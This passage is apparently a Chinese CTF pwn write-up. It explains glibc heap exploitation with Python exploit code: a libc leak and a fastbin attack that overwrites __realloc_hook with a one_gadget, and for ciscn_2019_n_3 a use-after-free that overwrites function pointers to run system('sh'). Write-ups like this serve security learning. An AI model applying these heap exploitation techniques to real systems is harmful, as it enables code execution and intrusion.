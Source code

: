 ```python
add(0x58) # 0
for i in range(4):
    add(0x60) # 1
edit(0, 0x58+10,'a'*0x58+'\xe1')
delete(1)
add(0x60) # 1
show(2) # 2
ru('content:')
main_arena = uu64(r(6)) - 88
base = main_arena - libc.sym['__malloc_hook'] - 0x10
leak('base', base)
```

接下来先绕过 fastbin 的大小检查，随后向 fd 写入 `malloc_hook` 上方的地址后申请回来，从申请到的地址出发填充 11 字节后即可用 `one_gadget` 覆盖 `__malloc_hook`。但是需要注意的是 `one_gadget` 的约束条件得不到满足，因此需要先执行 `__libc_realloc` 对 rsp 进行调整。最后用 `one_gadget` 覆盖 `__realloc_hook`。

```python
add(0x60) # 5 (2)
delete(2) # bypass fastbin check
edit(5,0x8,p64(main_arena-0x33)) # above malloc_hook
add(0x60) # 2
add(0x60) # 6
payload = flat('a'*0xb,base+0x4526a,base+libc.sym['realloc']+2)
edit(6,len(payload),payload)
add(0x18)
```

### ciscn_2019_n_3

本题 `do_new` 函数先创建 `0xc` 的 chunk，包含填充的数字、对数字的打印函数和释放函数；而如果申请的是 `string` 类型，且长度不超过 `0x400` 的话，随后还会创建一个新的 chunk，包含字符串内容、对字符串的打印函数和释放函数。

而在 `do_del` 中，`free` 后没有清空指针，存在 uaf。因此可以先申请两个堆块（总大小大于 `0xc`）然后依次释放，再申请一个大小为 `0xc` 的堆块。那么此时先会拿出 `chunk1` 的 `0xc` 这一块，再拿出 `chunk0` 的 `0xc` 这一块，后者是我们可写的。

通过逆向可知结构体偏移 0 处是打印函数、偏移 4 处是释放函数，释放函数的参数是结构体指针本身。那么我们将 `chunk0` 的打印函数写成 `sh\x00\x00`（注意 4 字节），释放函数用 `system` 覆盖，释放时就会执行 `system("sh")`。

```python
def add(index,len,content='a'):
    sla('CNote> ','1')
    sla('Index> ',str(index))
    sla('Type> ','2')
    sla('Length> ',str(len))
    sla('Value> ',content)

def delete(index):
    sla('CNote> ','2')
    sla('Index> ',str(index))

add(0,0x10)
add(1,0x10)
delete(0)
delete(1)
add(2,0xc,'sh\x00\x00'+p32(elf.sym['system']))
# 0xc from 1, then 0xc from 0
delete(0)
```
